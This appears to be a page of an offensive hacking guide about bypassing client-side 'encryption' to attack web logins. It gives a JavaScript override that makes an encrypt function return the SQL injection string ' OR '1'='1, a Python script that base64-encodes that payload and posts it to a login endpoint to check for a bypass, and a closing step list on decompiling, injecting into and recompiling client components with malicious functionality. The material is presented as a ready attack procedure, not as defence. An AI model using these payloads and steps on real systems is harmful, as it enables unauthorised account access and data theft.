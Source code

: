 ### **🔍 Finding Encryption in JavaScript**
Look for functions like:
```javascript
function encrypt(input) {
  return btoa(input);
}
```
Modify it to send raw SQL injection payloads:
```javascript
function encrypt(input) {
  return "' OR '1'='1";
}
```

### **📜 Python Script to Automate Malicious Submissions**
```python
import requests
import base64

# Encode attack payload
payload = base64.b64encode(b"' OR '1'='1").decode()

# Send request with modified encrypted payload
data = {
    "username": payload,
    "password": payload
}

response = requests.post("https://example.com/login", data=data)
print(response.text)  # Check if login bypass works!
```

✅ **If the server does not verify decrypted input properly, the attack succeeds!**

---

## **🔴 Summary: How to Exploit This**
1️⃣ **Download & Decompile the Component** (Browser Extensions, JavaScript, Java, WASM).  
2️⃣ **Analyze the Source Code** for vulnerabilities (Hardcoded keys, exposed methods).  
3️⃣ **Inject JavaScript to Call Public Methods** and override security settings.  
4️⃣ **Modify & Recompile the Component** to add malicious functionality.  
5️⃣ **Submit Modified Data** to bypass encryption & inject payloads.
